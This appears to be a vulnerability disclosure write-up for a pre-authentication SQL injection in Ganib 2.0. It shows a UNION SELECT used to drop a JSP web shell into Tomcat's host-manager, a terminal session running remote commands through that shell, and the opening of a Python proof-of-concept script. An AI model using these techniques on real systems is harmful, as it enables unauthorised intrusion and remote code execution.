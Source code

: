 ```
```

Here we can see that our controlled `userDomain` parameter is injected directly into the SQL query.  This can be exploited using a UNION SELECT with four columns to write a JSP shell out.

Because of the way the Tomcat applicaton's web.xml is configured, we cannot drop a JSP into the ROOT folder and expect it to run.  Have no fear, as the default Tomcat install built into Ganib includes both /manager and /host-manager, which provide perfect receptacles for our dumped shell:

```
root@jali:~/exploits# python ganib_sqli.py -i 192.168.1.64 -p /var/www/ganib/tomcat/webapps/host-manager -j ./cmd.jsp
[!] Dropping ./cmd.jsp on 192.168.1.64...
[!] Dropped at /wjdll.jsp
root@jali:~/exploits# python -c 'import requests; print requests.get("http://192.168.1.64:8080/host-manager/wjdll.jsp?cmd=pwd").content'

/var/www/ganib/tomcat/bin

    1    2    3

root@jali:~/exploits# 
```

There will be some issues if Ganib is running in a directory that MySQL does not have permissions to write to, and considering this is a completely portable install, it could be running from anywhere.  Of course, you can also make use of the dozens of stored procedures Ganib installs by default; such as APPLY_ADMIN_PERMISSIONS, REMOVEUSER, or CREATE_PARENT_ADMIN_ROLE; this would simply turn the query from a UNION SELECT into OR PROCEDURE().

I did a quick grep through the remainder of the code base and found multiple other injection vectors; most, however, were postauth. 

```
# Exploit title: Ganib 2.0 SQLi
# Date: 02/02/2014
# Exploit author: drone (@dronesec)
# More information:
# Vendor homepage: http://www.ganib.com/
# Software link: http://downloads.sourceforge.net/project/ganib/Ganib-2.0/Ganib-2.0_with_jre.zip
# Version: <= 2.3
# Fixed in: 2.4
# Tested on: Ubuntu 12.04 (apparmor disabled) / WinXP SP3

from argparse import ArgumentParser
import sys
import string
import random
import requests

""" Ganib 2.0 preauth SQLi PoC
    @dronesec
"""

def loadJSP(options):
    data = ''

    try:
        with open(options.jsp) as f:
            for line in f.readlines():
                data += line.replace("\"", "\\\"").replace('\n', '')
    except Exception, e:
        print e
        sys.exit(1)

    return data
```